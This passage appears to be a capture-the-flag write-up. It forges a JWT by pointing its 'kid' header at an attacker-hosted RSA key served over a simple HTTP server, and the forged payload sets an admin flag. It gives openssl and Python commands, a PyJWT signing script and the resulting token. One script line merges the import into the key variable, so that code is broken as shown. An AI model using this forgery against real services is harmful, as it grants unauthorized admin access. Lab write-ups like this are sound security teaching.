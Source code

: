 The fact is: We cannot modify the issued token without signing it again with the key available in the server, but, once the token has a field pointing to the path to the key to which it was signed, we could get a chance to recreate this token, signing it with our own RSA key and **making it available to the backend** during our credential validation, but we can only be sure testing :stuck_out_tongue_winking_eye:.

## Initial access

Once we need to create a token, searching for the easiest way to do it I have found a python library called [PyJWT](https://pyjwt.readthedocs.io/en/stable/) that seemed quite easy to be used. In the initial docs page, we have a sample code signing a token but we need to dig further in their documentation to find a way to add the `kid` header and create the cert.

Achieved the desired outcome by running the following steps:

- Created the RSA key using the command line below. We'll have as output the content of the public key and, in the specified file, the private key.

  ```bash
  openssl req -nodes -new -x509 -keyout privKey.key -noout -pubkey
  ```

- Published the private key using a simple HTTP Server, using the same port web server was using in the observed token.

  ```bash
  python3 -m http.server 7070
  ```

- After creating the key, wrote a script as content below using the obtained values of public and private keys and signed the payload. This script uses examples located at [Usage Examples](https://pyjwt.readthedocs.io/en/stable/usage.html) in the official module documentation.

  - Necessary to install the module using the command `pip3 install pyjwt`. In case `jwt` module is already installed, necessary to remove it first, otherwise, the script will fail.

  ```python
  #!/usr/bin/python3
  import jwtprivate_key = b"""-----BEGIN PRIVATE KEY-----
  MIIEvQIBADANBgkqhkiG9w0BAQEFAASCBKcwggSjAgEAAoIBAQDT/8rR3ZkWJOJN
  [...]
  XDmj7j8p7kdd2ZM1MYTO6A0=
  -----END PRIVATE KEY-----"""
  payload = {
      "username": "jdoe",
      "email": "jdoe@dummy.com",
      "admin_cap": 1
  }
  header = {"kid": "http://10.10.10.10:7070/privKey.key"}
  encoded = jwt.encode(payload, private_key, algorithm="RS256",headers=header)
  print(encoded)
  ```

  Sample output is pasted below:

  ```bash
  $ python3 generate-jwt.py
  eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly8xMC4xMC4xNC4xMTY6NzA3MC9wcml2S2V5LmtleSJ9.eyJ1c2VybmFtZSI6Impkb2UiLCJlbWFpbCI6Impkb2VAZHVtbXkuY29tIiwiYWRtaW5fY2FwIjoxfQ.WMokYjjMMECoF2UWM2fcMVcR99X34dHXwuj8nXqBlQWOnwC1NdBoO6PD-ZHjAZ5p969Jbf4XnRKZedAAokxvIgG2ymYNV1F8CcDzDfuHlMlk_CiYGvimoJWgvA3S-24KDql2bRrvJgoPbKKjqJ5Ir7mWZF1USGSwsttc9Ff1qniFAWTJ8CXkTLtfR498_rY_uIJfBdvqTbi3C9fWJcnSwjCGROkEGxCYve4cf5rjFvm_D_G5-S8oWkXICYAFp5lMQ288E0qGQp04nD16H1v2YzOROolNDeqMVB2uaI060xjKEA8mv6taa095q7rEqzpzXSj21Uq2-xcZonk0LI1-yg
  ```
